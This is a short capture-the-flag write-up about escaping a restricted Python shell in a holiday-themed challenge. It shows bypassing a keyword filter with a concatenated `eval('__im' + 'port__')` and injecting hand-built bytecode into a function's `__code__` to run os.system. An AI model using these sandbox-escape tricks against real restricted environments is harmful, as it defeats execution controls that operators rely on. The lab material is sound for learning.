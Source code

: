 ``` python
>>> subprocess.popen
Use of the command open is prohibited for this question.
```

Let's find the Python version. `make_object` from the talk must be used in a similar version.

We are running in `3.5.2`:

``` python
>>> sys = eval('__im' + 'port__("sys")') 
>>> sys.version
'3.5.2 (default, Nov 12 2018, 13:43:14) \n[GCC 5.4.0 20160609]'
```

I had a VM with `3.5.2` so I used this:

``` python
def bypass():
    import os
    print(os.system("./i_escaped"))
``` 

To get:

``` python
def a():
   return

a.__code__ = type(a.__code__)(0,0,1,3,67,b'd\x01\x00d\x00\x00l\x00\x00}\x00\x00t\x01\x00|\x00\x00j\x02\x00d\x02\x00\x83\x01\x00\x83\x01\x00\x01d\x00\x00S',(None, 0, './i_escaped'),('os', 'print', 'system'),('os',),'<stdin>','bypass',1,b'\x00\x01\x0c\x01')
```

And it works:

```
Loading, please wait......
 
  ____        _   _                      
 |  _ \ _   _| |_| |__   ___  _ __       
 | |_) | | | | __| '_ \ / _ \| '_ \      
 |  __/| |_| | |_| | | | (_) | | | |     
 |_|___ \__, |\__|_| |_|\___/|_| |_| _ _ 
 | ____||___/___ __ _ _ __   ___  __| | |
 |  _| / __|/ __/ _` | '_ \ / _ \/ _` | |
 | |___\__ \ (_| (_| | |_) |  __/ (_| |_|
 |_____|___/\___\__,_| .__/ \___|\__,_(_)
                     |_|                             
That's some fancy Python hacking -
You have sent that lizard packing!
-SugarPlum Mary
            
You escaped! Congratulations!
0
```

----------
